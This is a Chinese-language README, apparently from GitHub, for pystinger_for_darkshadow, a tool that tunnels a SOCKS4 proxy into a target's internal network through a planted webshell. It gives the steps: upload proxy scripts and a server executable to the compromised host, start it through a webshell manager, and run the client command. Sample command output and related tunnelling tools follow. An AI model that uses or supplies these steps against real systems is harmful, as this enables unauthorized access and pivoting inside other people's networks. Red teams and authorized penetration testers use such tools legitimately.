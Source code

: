 # 毒刺(pystinger_for_darkshadow)
毒刺(pystinger_for_darkshadow)是一个通过webshell实现**内网SOCK4代理出网**.工具主体使用python开发,当前支持php,jsp(x),aspx三种代理脚本.
如需使用端口转发功能请使用pystinger原版
# 使用方法

## SOCK4代理
* proxy.php上传到目标服务器,确保 [http://192.168.3.11:8080/proxy.jsp](http://192.168.3.11:8080/proxy.jsp)可以访问,页面返回 stinger XXX!
* 将stinger_server.exe和stinger_server.vbs上传到目标服务器,菜刀(蚁剑)执行```stinger_server.vbs```启动服务端
(修改vbs中路径,不要直接运行exe文件,会导致tcp断连)
* stinger_client命令行执行```./stinger_client -w http://192.168.3.11:8080/proxy.jsp -l 0.0.0.0 -p 60000```,生成如下输出表示成功
```
root@kali:~# ./stinger_client -w http://192.168.3.11:8080/proxy.jsp -l 0.0.0.0 -p 60000
2019-12-08 21:53:10,207 - INFO - 468 - Local listen check pass.
2019-12-08 21:53:10,207 - INFO - 469 - Socks4a on 0.0.0.0:60000
2019-12-08 21:53:10,217 - INFO - 478 - WEBSHELL check pass.
2019-12-08 21:53:10,218 - INFO - 479 - http://192.168.3.11:8080/proxy.jsp
2019-12-08 21:53:10,226 - INFO - 490 - REMOTE_SERVER check pass.
2019-12-08 21:53:10,226 - INFO - 491 - --- Sever Config ---
2019-12-08 21:53:10,226 - INFO - 493 - client_address_list => []
2019-12-08 21:53:10,226 - INFO - 493 - SERVER_LISTEN => 127.0.0.1:60010
2019-12-08 21:53:10,227 - INFO - 493 - READ_BUFF_SIZE => 51200
2019-12-08 21:53:10,227 - INFO - 493 - LOG_LEVEL => INFO
2019-12-08 21:53:10,227 - INFO - 506 - SLEEP_TIME : 0.01
2019-12-08 21:53:10,227 - WARNING - 90 - LoopThread start
2019-12-08 21:53:10,229 - WARNING - 370 - socks4a server start on 0.0.0.0:60000
2019-12-08 21:53:10,232 - WARNING - 377 - Socks4a ready to accept

```
* 此时已经在本地60000启动了一个192.168.3.11所在内网的socks4代理
# 相关工具
[https://github.com/nccgroup/ABPTTS](https://github.com/nccgroup/ABPTTS)

[https://github.com/sensepost/reGeorg](https://github.com/sensepost/reGeorg)

[https://github.com/SECFORCE/Tunna](https://github.com/SECFORCE/Tunna)
# 已测试
## stinger_server\stinger_client
* windows 
* linux
## proxy.jsp(x)/php/aspx
* php7.2 
* tomcat7.0 
* iis8.0

# 更新日志
**2.0**
更新时间: 2019-09-29
* 将socks4代理服务移动到客户端
* 不再支持端口转发功能



